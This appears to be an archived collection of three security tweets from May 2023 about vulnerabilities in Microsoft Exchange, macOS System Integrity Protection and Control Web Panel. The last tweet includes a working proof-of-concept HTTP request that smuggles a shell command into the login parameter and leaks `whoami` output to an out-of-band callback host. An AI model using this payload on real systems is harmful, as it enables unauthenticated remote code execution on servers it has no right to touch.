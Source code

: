 # reverseame
**https://twitter.com/reverseame/status/1663837975182974978 _at 2023-05-31, 09:21:00_**
<blockquote>
Microsoft Exchange Powershell Remoting Deserialization leading to RCE (CVE-2023-21707) https://t.co/6AXrS0KnKw
</blockquote>

* https://starlabs.sg/blog/2023/04-microsoft-exchange-powershell-remoting-deserialization-leading-to-rce-cve-2023-21707/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>36</code></td>
<td>Favorites: <code>86</code></td>
</tr></table>

---

# MsftSecIntel
**https://twitter.com/MsftSecIntel/status/1663576753204342785 _at 2023-05-30, 16:03:00_**
<blockquote>
A macOS vulnerability could allow an attacker with root access to bypass System Integrity Protection (SIP) and perform arbitrary operations on a device. Learn more about CVE-2023-32369, which we refer to as “Migraine”, and its patch in our latest blog: https://t.co/DAyWI2zsec
</blockquote>

* https://msft.it/6018gegrs

<table><tr>
<td>Quotes: <code>15</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>99</code></td>
<td>Favorites: <code>215</code></td>
</tr></table>

---

# freeprogrammers
**https://twitter.com/freeprogrammers/status/1662352921831284736 _at 2023-05-27, 06:59:56_**
<blockquote>
CVE-2022-44877
Control Web Panel Unauth RCE
POC usage:
POST /login/index.php?login=$(ping${IFS}-nc${IFS}2${IFS}`whoami`.{{interactsh-url}}) HTTP/1.1
Host: vuln
Content-Type: application/x-www-form-urlencoded

username=root&amp;password=toor&amp;commit=Login https://t.co/CRLGltneZQ
</blockquote>
